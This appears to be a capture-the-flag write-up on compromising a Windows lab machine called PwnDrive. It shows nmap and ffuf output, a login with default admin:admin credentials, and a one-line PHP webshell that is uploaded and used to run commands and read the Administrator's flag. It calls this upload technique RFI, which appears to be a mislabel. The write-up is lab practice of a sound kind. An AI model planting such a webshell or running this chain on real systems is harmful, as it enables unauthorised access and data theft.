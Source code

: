 #### Scanning running services
***
┌─[elliot@parrot]─[~]
└──╼ $nmap  10.150.150.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 17:31 EAT
Nmap scan report for 10.150.150.11
Host is up (0.28s latency).
Not shown: 984 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
21/tcp    open     ftp
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
1433/tcp  open     ms-sql-s
3306/tcp  open     mysql
3389/tcp  open     ms-wbt-server
8099/tcp  filtered unknown
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49155/tcp open     unknown
49156/tcp open     unknown
49157/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 32.07 seconds


┌─[elliot@parrot]─[~]
└──╼ $nmap -sV -sC -p21,80,135,139,443,445,1433,3306,3389  10.150.150.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 17:33 EAT
Nmap scan report for 10.150.150.11
Host is up (0.24s latency).

PORT     STATE SERVICE            VERSION
21/tcp   open  ftp                Xlight ftpd 3.9
80/tcp   open  http               Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
|_http-title: PwnDrive - Your Personal Online Storage
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
443/tcp  open  ssl/http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: PwnDrive - Your Personal Online Storage
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds       Windows Server 2008 R2 Enterprise 7601 Service Pack 1 microsoft-ds
1433/tcp open  ms-sql-s           Microsoft SQL Server 2012 11.00.2100.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-03-21T12:57:09
|_Not valid after:  2054-03-21T12:57:09
| ms-sql-ntlm-info: 
|   10.150.150.11:1433: 
|     Target_Name: PWNDRIVE
|     NetBIOS_Domain_Name: PWNDRIVE
|     NetBIOS_Computer_Name: PWNDRIVE
|     DNS_Domain_Name: PwnDrive
|     DNS_Computer_Name: PwnDrive
|_    Product_Version: 6.1.7601
| ms-sql-info: 
|   10.150.150.11:1433: 
|     Version: 
|       name: Microsoft SQL Server 2012 RTM
|       number: 11.00.2100.00
|       Product: Microsoft SQL Server 2012
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2024-09-01T12:03:16+00:00; -2h32m56s from scanner time.
3306/tcp open  mysql              MySQL 5.5.5-10.4.14-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.14-MariaDB
|   Thread ID: 33
|   Capabilities flags: 63486
|   Some Capabilities: InteractiveClient, Support41Auth, SupportsCompression, Speaks41ProtocolOld, IgnoreSigpipes, ODBCClient, FoundRows, SupportsTransactions, Speaks41ProtocolNew, LongColumnFlag, ConnectWithDatabase, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: J`&8(^&<;Tur[P`r>zl2
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: PWNDRIVE
|   NetBIOS_Domain_Name: PWNDRIVE
|   NetBIOS_Computer_Name: PWNDRIVE
|   DNS_Domain_Name: PwnDrive
|   DNS_Computer_Name: PwnDrive
|   Product_Version: 6.1.7601
|_  System_Time: 2024-09-01T12:03:04+00:00
| ssl-cert: Subject: commonName=PwnDrive
| Not valid before: 2024-08-31T09:54:56
|_Not valid after:  2025-03-02T09:54:56
|_ssl-date: 2024-09-01T12:03:13+00:00; -2h32m56s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: PWNDRIVE, NetBIOS user: unknown, NetBIOS MAC: 00:0c:29:89:87:cb (VMware)
| smb2-time: 
|   date: 2024-09-01T12:03:04
|_  start_date: 2024-03-21T12:57:13
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Enterprise 7601 Service Pack 1 (Windows Server 2008 R2 Enterprise 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: PwnDrive
|   NetBIOS computer name: PWNDRIVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-09-01T05:03:03-07:00
| smb-security-mode: 
|   account_used: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -1h32m55s, deviation: 2h38m45s, median: -2h32m56s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.73 seconds

***

#### I performed directory bruteforcing with ffuf
***
┌─[elliot@parrot]─[~]
└──╼ $ffuf -u http://10.150.150.11/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.150.150.11/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 264ms]
.hta                    [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 407ms]
.htpasswd               [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 211ms]
                        [Status: 200, Size: 4036, Words: 1153, Lines: 102, Duration: 223ms]
admin                   [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 630ms]
Admin                   [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 617ms]
ADMIN                   [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 624ms]
aux                     [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 766ms]
cgi-bin/                [Status: 403, Size: 1059, Words: 103, Lines: 43, Duration: 855ms]
com1                    [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 609ms]
com2                    [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 578ms]
com3                    [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 571ms]
components              [Status: 301, Size: 343, Words: 22, Lines: 10, Duration: 944ms]
con                     [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 923ms]
css                     [Status: 301, Size: 336, Words: 22, Lines: 10, Duration: 782ms]
favicon.ico             [Status: 200, Size: 104623, Words: 50, Lines: 50, Duration: 628ms]
img                     [Status: 301, Size: 336, Words: 22, Lines: 10, Duration: 831ms]
inc                     [Status: 301, Size: 336, Words: 22, Lines: 10, Duration: 953ms]
index.php               [Status: 200, Size: 4036, Words: 1153, Lines: 102, Duration: 918ms]
licenses                [Status: 403, Size: 1204, Words: 127, Lines: 46, Duration: 528ms]
lpt1                    [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 632ms]
lpt2                    [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 608ms]
nul                     [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 612ms]
phpmyadmin              [Status: 403, Size: 1204, Words: 127, Lines: 46, Duration: 771ms]
prn                     [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 881ms]
server-info             [Status: 403, Size: 1204, Words: 127, Lines: 46, Duration: 591ms]
server-status           [Status: 403, Size: 1204, Words: 127, Lines: 46, Duration: 645ms]
upload                  [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 670ms]
utils                   [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 860ms]
vendor                  [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 636ms]
webalizer               [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 632ms]
:: Progress: [4614/4614] :: Job [1/1] :: 33 req/sec :: Duration: [0:01:34] :: Errors: 0 ::


***

#### Upon visiting **/admin** directory I found some interesting admin pages
***
![](adminurl.png)

**manageusers.php**
![](manageuser.png)



#### I visited the **/login.php** page and tried login with credentials **admin:admin** I found an uploaded image
#### Then I tried upload a file on it
***
![](uploadir.png)

***


#### I uploaded a webshell to  check for RFI
***
┌─[elliot@parrot]─[~]
└──╼ $cat webshell.php 
<?php system($_GET['cmd']); ?>


***
#### Then i checked it in */uploads* directory
***
![](upload.png)


***

#### So I used RFI to enble Command injection via a webshell
#### After navigating to */upload* directory discovered by ffuf,
#### I called the webshell using a tag *?cmd=*
***
![](rfitest.png)


***

#### So, since its recognized as Windows machine by db_nmap
#### I viewed *C:/Users* directory
***
![](dirusers.png)

***

#### Interesting looks like there is a directory for user called *Administrator.*
#### From *Desktop/* directory, I found the flag
***
.![](dirdesk.png)


***


#### Use *more* or type to view the flag and Pawn the machine
***
![](pwn.png)

***
